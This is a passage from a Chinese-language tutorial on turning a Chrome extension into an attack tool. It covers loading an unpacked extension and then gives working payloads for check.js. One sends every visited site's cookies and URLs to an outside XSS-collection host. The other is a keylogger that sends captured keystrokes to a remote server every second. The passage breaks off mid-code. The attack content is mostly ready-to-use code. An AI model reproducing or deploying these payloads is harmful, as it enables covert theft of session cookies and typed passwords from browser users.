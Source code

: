 ```

```

创建以下文件：

![Alt text](http://drops.javaweb.org/uploads/images/8ba910195913e9340cd19c7a42fef14b243ce944.jpg)

现在，所有的文件就全了，但是还没什么功能，尝试加载一下插件，浏览器URL栏输入`chrome://extensions/`选择加载已解压的扩展程序，之后选择文件所在的文件夹。

![Alt text](http://drops.javaweb.org/uploads/images/430dbcd3335a0267a088911bdc3c10218f38a64b.jpg)

然后插件就已经被加载上了：

![Alt text](http://drops.javaweb.org/uploads/images/2f0901968928062f5abbb259f9c6f3bb1e3d13bf.jpg)

0x02 How to Hack
=====

插件已经可以被成功加载了，怎么使用它来进行攻击呢，我们开始编写。

### 1、XSS Platform

配置XSS平台，获取项目代码如下：

```
<script src=http://t.cn/xxxxxxx></script>

```

访问http://t.cn/xxxxxx 获取代码，将其写入check.js，内容如下：

```
﻿﻿(function(){(new Image()).src='http://xss9.com/index.php?do=api&id=xxxxxx&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if(''==1){keep=new Image();keep.src='http://xss9.com/index.php?do=keepsession&id=xxxxxx&url='+escape(document.location)+'&cookie='+escape(document.cookie)};

```

保存文件，重新加载插件，访问任意网站，获取访问网站的cookie信息，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/321820fb1c0a229eefb9d290b0b3e5aa488ca95f.jpg)

### 2、Keyloger

将以下Payload写入check.js中：

```
$(document).ready(function()
{
    var server = "http://server.com/"; //接收服务器
    var gate = "data.php?data=";  //接收文件
    var tabURL = window.location.href;

            var keys='';
    document.onkeypress = function(e) {
      get = window.event?event:e;
      key = get.keyCode?get.keyCode:get.charCode;
      key = String.fromCharCode(key);
      keys+=key;
    }
    window.setInterval(function(){
      new Image().src = server+gate+keys;
      keys = '';
    }, 1000);        
```